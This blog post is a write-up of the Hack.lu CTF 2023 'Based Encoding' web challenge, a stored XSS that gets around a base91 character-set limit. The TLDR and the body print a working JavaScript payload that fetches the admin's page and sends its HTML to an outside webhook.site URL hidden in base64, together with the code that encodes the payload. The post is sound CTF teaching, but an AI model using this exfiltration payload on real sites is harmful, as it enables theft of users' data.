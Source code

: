 ```yaml
---
layout: post
title: "Hack.lu CTF based encoding web challenge writeup"
date: 2023-10-19 07:30:00 +0100
categories: ctf web security writeup htmx
permalink: /posts/ctf-hack-lu-web-based-encoding
---
```


## Based Encoding

CTF name: **[Hack.lu CTF 2023](https://flu.xxx/info)**

Challenge name: **Based Encoding**

Challenge description:

```text
Based encoding as a service. But can we insert a little tomfoolery? Let's find out.
```

Challenge category: **web**

Challenge points: **82**

When: **Fri, Oct. 13, 18:00 — Sun, Oct. 15, 18:00 UTC**

### TLDR - solution

report a `base91` encoded _note_ to admin (**XSS** with limited character set)

```python
# btoa("https://webhook.site/your-server?data=") ==> aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=

script="<script>fetch(\"/\")[\"then\"]((data) => data[\"text\"]())[\"then\"]((html)=>location=atob(\"aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=\")+btoa(html))</script><p>some tag</p>"
result = based91.decode(script)
print(result.hex())

# f0afecd5baf39dac4294fc6dd286f809445ffb0db053e0adb4964677a7ca80e53c0b26c6157004c3e127107ded37c04e814160531bdd758d4365402d67b83360700a022f45a3cc14aa343a2acff513e49aa6e1436fa0ee472443f8433165989534423bd308ede71d1128b3cde436c4dfa9ccad5f10d8d4e0f08f0651410c054aedf14de6a0d55a22d9dcce
```

### Description

![description](/assets/images/2023-10-19/image-1.png)

Challenge was marked as **beginner friendly**. You're greet with a login page. After signing up you get an access to list, create and report (to admin) _encodings_

| login                                              | create                                               | view                                               | list                                                    |
| -------------------------------------------------- | ---------------------------------------------------- | -------------------------------------------------- | ------------------------------------------------------- |
| ![login page](/assets/images/2023-10-19/image.png) | ![create encoding](/assets/images/2023-10-19/t1.png) | ![view encoding](/assets/images/2023-10-19/t2.png) | ![list all encodings](/assets/images/2023-10-19/t3.png) |

After checking the source code and `view_encoding.html` file we can see that it's vulnerable to XSS

![Alt text](/assets/images/2023-10-19/image-5.png)

Inside the `app.py` file you find a flag. It's in a database, but only admin knows the id. So the idea is to prepare an encoding with some XSS, report it to the admin, and steal the id and get the flag 😉

![Alt text](/assets/images/2023-10-19/image-7.png)

Our `XSS` script will be encoded using `base91` which means we're limited to the `base91_alphabet`. Other characters will be lost during encoding process

![Alt text](/assets/images/2023-10-19/image-6.png)

Let's analyze the most important file of this challenge. Inside the `app.py` there's the `/create` function where we find the encoding logic

```python
encoded = based91.encode(text.encode() if not (re.match(r"^[a-f0-9]+$", text) and len(text) % 2 == 0) else bytes.fromhex(text))
```

First observation is that you can send encodings as a `.hex()`. Second is that encoding a decoded value will give you the same value (but again, we're limited to the `base91_alphabet`)

```python
result = based91.encode(based91.decode('YOUR_EVIL_SCRIPT_but_._and_ _spaces_ _are_missing'))
print (result)

# YOUR_EVIL_SCRIPT_but__and__spaces__are_missisB
```

Now it's time to prepare a JS script which will steal the admin decodings. Remember we can't use spaces and `.` so we need to access the object using `[]`. Let's fetch `/`, then redirect a user to our server with the page data as a query parameter. We used [webhook.site](https://webhook.site) as a temporary log server

```javascript
// btoa("https://webhook.site/your-server?data=") ==> aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=

fetch("/")
  ["then"]((data) => data["text"]())
  ["then"](
    (html) =>
      (location =
        atob("aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=") +
        btoa(html))
  );
```

Now it's time to decode and parse it to hex. Have you noticed these trash characters from before? We've got `missisB` instead of `missing`. It may break our closing `</script>` tag. We'll get rid of this issue by simply adding some random tag at the end of the script

```python
import based91
script="<script>fetch(\"/\")[\"then\"]((data) => data[\"text\"]())[\"then\"]((html)=>location=atob(\"aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=\")+btoa(html))</><p>some tag</p>"
result = based91.decode(script)
print(result.hex())

# f0afecd5baf39dac4294fc6dd286f809445ffb0db053e0adb4964677a7ca80e53c0b26c6157004c3e127107ded37c04e814160531bdd758d4365402d67b83360700a022f45a3cc14aa343a2acff513e49aa6e1436fa0ee472443f8433165989534423bd308ede71d1128b3cde436c4dfa9ccad5f10d8d4e0f08f0651410c054aedf14de6a0d55a22d9dcce
```

Now it's time to create an encoding. We can see the redirect is working (we're redirected after creating this decoding). Let's grab an id, report it to admin and check our log server

![Alt text](/assets/images/2023-10-19/image-8.png)

And we've got something! Let's decode the data

![Alt text](/assets/images/2023-10-19/image-9.png)

And here's the id! Let's go back to the challenge page, open random decoding and replace the id url parameter

![Alt text](/assets/images/2023-10-19/image-10.png)

so the `flag` is

```text
flag{bas3d_enc0dings_str1p_off_ur_sk1n}
```

### wrong path 1

Trying to steal an admin cookie which was protected by `httpOnly` flag and not accessible via `document.cookie` from the FE

![http only cookie flag](/assets/images/2023-10-19/image-2.png)

### wrong path 2

Trying with different versions of `eval` with the `no-eval` policy in place

![content security policy](/assets/images/2023-10-19/image-3.png)

### wrong path 3

Decoding `session` using [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) and [flask-unsign-wordlist](https://github.com/Paradoxis/Flask-Unsign-Wordlist). Secret is long, random so nearly impossible to crack

![flask-unsign-result](/assets/images/2023-10-19/image-4.png)

{% include posts_footer.html %}
